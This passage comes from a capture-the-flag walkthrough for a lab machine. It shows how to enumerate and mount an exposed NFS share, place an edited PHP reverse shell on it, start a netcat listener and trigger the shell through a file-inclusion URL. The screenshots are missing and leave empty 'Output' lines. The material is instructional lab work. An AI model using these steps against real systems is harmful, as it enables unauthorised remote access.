





4.1 Mounting the NFS (First flag)
2049 - Pentesting NFS ServiceBasic InformationIt is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory. Default port: 2049. More info
https://book.hacktricks.xyz/pentesting/nfs-service-pentesting.We saw the port 2049 port is opened.
1. To know which folder has the server available to mount you an ask it using the following command on your Kali Machine:
$showmount -e 192.168.12.28
.
Output 
The NFS is mounted on /mnt/nfs of the remote machine and is accessible to everyone.
2. Mount that directory on your Kali Machine .
$sudo mount -t nfs 192.168.12.28:/mnt/nfs ./nfs
3. Copy from you Kali Machine “/usr/share/webshells/php/php-reverse-shell.php” file content to a file called “shell.php”.
4. Change the IP and PORT variables.
Output 
5. Copy the file to “nfs”.
$sudo cp /home/kali/hacksudo2/shell.php nfs/
6. On your Kali Machine go to the "~/nfs? directory and list the files.
Output 
7. Show up the flag.txt.
Output 
8. Open a “netcat” connection.
9. Navigate to http://192.168.12.28/file.php?file=/mnt/nfs/shell.php.
Output 
On your “netcat” connection you'll have a reverse shell.